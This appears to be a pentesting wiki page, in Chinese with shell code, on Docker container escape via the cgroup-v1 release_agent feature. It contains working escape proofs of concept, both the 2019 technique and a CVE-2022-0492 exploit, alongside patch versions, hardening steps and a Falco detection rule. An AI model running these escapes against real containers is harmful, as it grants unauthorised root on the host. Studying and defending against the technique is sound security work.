 # Docker release_agent cgroups escape

{{#include ../../../../banners/hacktricks-training.md}}

**有关更多详细信息，请参阅** [**原始博客文章**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**。** 这只是一个摘要：

---

## 经典 PoC (2019)
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
PoC 利用 **cgroup-v1** 的 `release_agent` 特性：当一个 cgroup 的最后一个任务退出时，如果该 cgroup 设置了 `notify_on_release=1`，内核（在 **主机的初始命名空间中**）会执行存储在可写文件 `release_agent` 中的程序路径。由于该执行是在 **主机上具有完全的 root 权限**，因此获得对该文件的写入访问权限就足以实现容器逃逸。

### 简短、易读的操作步骤

1. **准备一个新的 cgroup**

```shell
mkdir /tmp/cgrp
mount -t cgroup -o rdma cgroup /tmp/cgrp   # 或 –o memory
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
```

2. **将 `release_agent` 指向主机上攻击者控制的脚本**

```shell
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

3. **投放有效载荷**

```shell
cat <<'EOF' > /cmd
#!/bin/sh
ps aux > "$host_path/output"
EOF
chmod +x /cmd
```

4. **触发通知器**

```shell
sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"   # 添加自己并立即退出
cat /output                                  # 现在包含主机进程
```

---

## 2022 内核漏洞 – CVE-2022-0492

在 2022 年 2 月，Yiqi Sun 和 Kevin Wang 发现 **内核在进程写入 cgroup-v1 中的 `release_agent` 时并未验证能力**（函数 `cgroup_release_agent_write`）。

实际上 **任何能够挂载 cgroup 层次结构的进程（例如通过 `unshare -UrC`）都可以在 *初始* 用户命名空间中写入任意路径到 `release_agent`，而无需 `CAP_SYS_ADMIN`**。在默认配置、以 root 运行的 Docker/Kubernetes 容器中，这允许：

* 提升到主机上的 root 权限；↗
* 在容器未被提升的情况下实现容器逃逸。

该缺陷被分配为 **CVE-2022-0492**（CVSS 7.8 / 高）并在以下内核版本中修复（以及所有后续版本）：

* 5.16.2, 5.15.17, 5.10.93, 5.4.176, 4.19.228, 4.14.265, 4.9.299。

补丁提交：`1e85af15da28 "cgroup: Fix permission checking"`。

### 容器内的最小利用代码
```bash
# prerequisites: container is run as root, no seccomp/AppArmor profile, cgroup-v1 rw inside
apk add --no-cache util-linux  # provides unshare
unshare -UrCm sh -c '
mkdir /tmp/c; mount -t cgroup -o memory none /tmp/c;
echo 1 > /tmp/c/notify_on_release;
echo /proc/self/exe > /tmp/c/release_agent;     # will exec /bin/busybox from host
(sleep 1; echo 0 > /tmp/c/cgroup.procs) &
while true; do sleep 1; done
'
```
如果内核存在漏洞，来自 *host* 的 busybox 二进制文件将以完全 root 权限执行。

### 加固与缓解措施

* **更新内核** (≥ 版本以上)。该补丁现在要求在 *initial* 用户命名空间中具有 `CAP_SYS_ADMIN` 才能写入 `release_agent`。
* **优先使用 cgroup-v2** – 统一层次 **完全移除了 `release_agent` 功能**，消除了这一类的逃逸。
* **禁用不需要的非特权用户命名空间**：
```shell
sysctl -w kernel.unprivileged_userns_clone=0
```
* **强制访问控制**：AppArmor/SELinux 策略拒绝在 `/sys/fs/cgroup/**/release_agent` 上执行 `mount`、`openat`，或丢弃 `CAP_SYS_ADMIN`，即使在易受攻击的内核上也能阻止该技术。
* **只读绑定掩码** 所有 `release_agent` 文件（Palo Alto 脚本示例）：
```shell
for f in $(find /sys/fs/cgroup -name release_agent); do
mount --bind -o ro /dev/null "$f"
done
```

## 运行时检测

[`Falco`](https://falco.org/) 自 v0.32 起提供内置规则：
```yaml
- rule: Detect release_agent File Container Escapes
desc: Detect an attempt to exploit a container escape using release_agent
condition: open_write and container and fd.name endswith release_agent and
(user.uid=0 or thread.cap_effective contains CAP_DAC_OVERRIDE) and
thread.cap_effective contains CAP_SYS_ADMIN
output: "Potential release_agent container escape (file=%fd.name user=%user.name cap=%thread.cap_effective)"
priority: CRITICAL
tags: [container, privilege_escalation]
```
规则在容器内仍然拥有 `CAP_SYS_ADMIN` 的进程尝试写入 `*/release_agent` 时触发。

## 参考

* [Unit 42 – CVE-2022-0492: container escape via cgroups](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/) – 详细分析和缓解脚本。
* [Sysdig Falco rule & detection guide](https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/)

{{#include ../../../../banners/hacktricks-training.md}}
